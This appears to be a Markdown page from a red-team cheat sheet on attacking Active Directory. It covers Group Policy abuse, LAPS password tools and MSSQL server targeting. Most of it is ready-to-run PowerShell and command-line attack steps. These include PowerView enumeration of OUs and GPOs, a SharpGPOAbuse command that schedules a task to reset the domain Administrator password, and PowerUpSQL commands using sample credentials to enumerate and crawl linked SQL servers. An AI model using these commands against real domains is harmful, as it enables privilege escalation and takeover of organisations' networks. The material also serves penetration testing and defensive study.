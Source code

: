 #### <a name='shoot-gpo'></a>shoot-gpo

* can be seen as a container applying policies on nested objects (computers, users, groups, etc.)
* best way is to discover the [Inbound Object Control](https://bloodhound.readthedocs.io/en/latest/data-analysis/nodes.html#gpos) with bloodhound 
* privesc: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), [Red Teamer’s Guide to GPOs and OUs](https://wald0.com/?p=179)
* more current attack is to edit the sysvol to add a scheduled task like [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse?tab=readme-ov-file) or a local administrator

```sh
# list the OU, target an OU
Get-DomainOU | select -ExpandProperty name							
$ztarg_ou="DevOps"

# list the computer of the targeted OU
(Get-DomainOU -Identity $ztarg_ou).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

# list the GPO applied on the targeted OU 
Get-DomainGPO -Identity (Get-DomainOU -Identity $ztarg_ou).gplink.substring(11,(Get-DomainOU -Identity $ztarg_ou).gplink.length-72)

# list sysvol
ls \\$zdom_fqdn\SYSVOL\$zdom_fqdn\Policies\

# SharpGPOAbuse privesc example, add local administrator
SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author $zdom_fqdn\$ztarg_user_name --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"
```

#### <a name='shoot-laps'></a>shoot-laps

* [DirSync](https://github.com/simondotsh/DirSync)
* [swisskyrepo](https://github.com/swisskyrepo/SharpLAPS)
* [p0dalirius](https://github.com/p0dalirius/pyLAPS)

```powershell
```

#### <a name='shoot-mssql-servers'></a>shoot-mssql-servers
Txxx MSSQL servers

References:
- [BloodHound Edge SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)
- [PowerUpSQL CheatSheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

```powershell
# Invoke-UserHunter -UserIdentity dba_admin > mssql_instances_shorted.txt
# sed 's/MSSQLSvc\/\([a-z,A-Z,0-9]*\)\(\.contoso\.corp:\|:\)\?\(.*\)/\1/g' mssql_instances_shorted.txt | sort -u > mssql_servers_shorted.txt
# get-content mssql_servers_shorted.txt | get-netcomputer -Identity $_ -properties cn,description,OperatingSystem,OperatingSystemVersion,isCriticalSystemObject
 Get-SQLInstanceDomain -Verbose -DomainController $zdom_dc_fqdn -Username CONTOSO\mssql_admin -password Password01 > mssql_instances.txt

# Crawling SQL server links
 Get-SQLServerLinkCrawl -Instance $ztarg_computer_name -Verbose
```
